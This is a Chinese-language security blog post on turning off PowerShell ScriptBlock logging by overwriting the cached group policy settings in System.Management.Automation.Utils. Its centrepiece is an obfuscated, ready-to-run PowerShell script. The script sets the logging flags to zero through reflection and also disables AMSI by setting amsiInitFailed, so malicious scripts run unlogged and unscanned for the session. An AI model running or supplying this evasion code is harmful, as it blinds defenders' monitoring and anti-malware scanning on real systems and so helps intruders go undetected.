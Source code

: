 ```yaml
---
title: 利用cachedGroupPolicySettings关闭ScriptBlockLogging
date: 2019-12-31 23:59:55 +0800
categories: [域安全, TA0005防御逃逸]
tags: [ScriptBlockLogging, TA0005防御逃逸]     # TAG names should always be lowercase
typora-root-url: ..
---
```




**参考**：

[PowerShell ScriptBlock Logging Bypass](https://cobbr.io/ScriptBlock-Logging-Bypass.html)



In Windows 10 / PowerShell 5.0, Microsoft introduced several new security features in PowerShell. These included the AMSI, Protected Event Logging, and maybe most importantly **ScriptBlock logging**. 



```
Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104}
```

![image-20210102180659185](/assets/img/image-20210102180659185.png)



每当powershell发现一个ScriptBlock，就会查询Group Policy setting是否需要记日志；如果设置了`System.Management.Automation.Utils`中的cachedGroupPolicySettings`，powershell会直接读取缓存的查询结果。

通过将查询结果赋值为"不记入日志"来临时关闭ScriptBlockLogging，此设置只对当前powershell session有效，并且并没有实际修改组策略、注册表中的设置。



```
// 混淆版本，同时关闭ScriptBlockLogging和AMSI
If($PSVerSioNTaBle.PSVERSiON.MAjOr -gE 3){
  $GPF=[reF].AssemBLy.GeTTypE('System.Management.Automation.Utils')."GetFiE`ld"('cachedGroupPolicySettings','N'+'onPublic,Static');
  If($GPF){
    $GPC=$GPF.GEtVaLue($NUll);
    IF($GPC['ScriptB'+'lockLogging']){
      $GPC['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;
      $GPC['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0
      }
    $vAL=[CoLleCtIONS.GeNERic.DicTIonaRy[sTRIng,SystEM.ObjEct]]::NEw();
    $vaL.ADD('EnableScriptB'+'lockLogging',0);
    $VaL.Add('EnableScriptBlockInvocationLogging',0);
    $GPC['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$VAl
    } ELse{
    [SCrIptBloCK]."GeTFiE`LD"('signatures','N'+'onPublic,Static').SETVALUE($NUll,(NeW-ObjecT COLlectionS.GENeRic.HashSet[StRing]))}
    [ReF].ASsEmBly.GETTYpE('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GEtFIELD('amsiInitFailed','NonPublic,Static').SeTVALUE($nUll,$true)};
}
```



![image-20210102181516560](/assets/img/image-20210102181516560.png)